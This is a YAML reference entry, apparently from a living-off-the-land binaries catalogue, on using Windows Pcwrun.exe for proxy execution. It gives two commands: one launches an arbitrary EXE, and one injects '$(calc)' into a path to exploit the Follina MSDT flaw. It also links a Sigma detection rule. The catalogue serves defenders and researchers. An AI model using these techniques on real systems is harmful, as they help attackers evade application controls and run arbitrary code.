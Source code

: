 ```yaml
---
Name: Pcwrun.exe
Description: Program Compatibility Wizard
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: Pcwrun.exe {PATH_ABSOLUTE:.exe}
    Description: Open the target .EXE file with the Program Compatibility Wizard.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: Pcwrun.exe /../../$(calc).exe
    Description: Leverage the MSDT follina vulnerability through Pcwrun to execute arbitrary commands and binaries. Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Windows\System32\pcwrun.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_pcwrun_follina.yml
Resources:
  - Link: https://twitter.com/pabraeken/status/991335019833708544
  - Link: https://twitter.com/nas_bench/status/1535663791362519040
Acknowledgement:
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

